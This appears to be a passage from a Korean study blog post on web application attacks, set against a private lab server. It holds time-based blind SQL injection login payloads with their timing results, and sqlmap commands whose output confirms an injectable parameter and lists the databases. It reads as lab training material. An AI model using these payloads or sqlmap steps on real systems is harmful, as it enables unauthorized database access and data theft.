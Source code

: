 ```

X보다 같거나 큰가 ?
ID : ' or ascii(substring(database(),1,1))>=88 and sleep(5) #
PASS : 아무거나 

결과) 로그인 실패 창이 빨리 뜬다 - 거짓 :  X 보다 아스키코드가 작다 

W인가?
ID : ' or ascii(substring(database(),1,1))=87 and sleep(5) #
PASS : 아무거나 

결과)  로그인 실패 창이 늦게 뜬다 - W 인거 확인
```

<br>

<br>

<br>

##### sqlmap 

![2022-10-26-115맵](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-115맵.jpg)

<br>

취약점 확인

```
http://172.16.0.110/board/board_view.php?num=28

sqlmap -u "http://172.16.0.110/board/board_view.php?num=28" -p "num"             << 위의 웹사이트 정보로 명령어 실행

[03:55:43] [INFO] testing connection to the target URL
y
[03:55:53] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:55:53] [INFO] testing if the target URL content is stable
[03:55:54] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] c

Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=43 AND (SELECT 8930 FROM (SELECT(SLEEP(5)))JRwZ)
    Type: UNION query
```

<br>

데이터 베이스 목록

```
sqlmap -u "http://172.16.0.110/board/board_view.php?num=28" -p "num" --dbs

back-end DBMS: MySQL >= 5.0.12
[03:59:56] [INFO] fetching database names
[03:59:57] [WARNING] reflective value(s) found and filtering out
[03:59:57] [INFO] retrieved: 'information_schema'
[03:59:57] [INFO] retrieved: 'WebTest'
[03:59:57] [INFO] retrieved: 'bns'
[03:59:57] [INFO] retrieved: 'mysql'
[03:59:57] [INFO] retrieved: 'test'
```

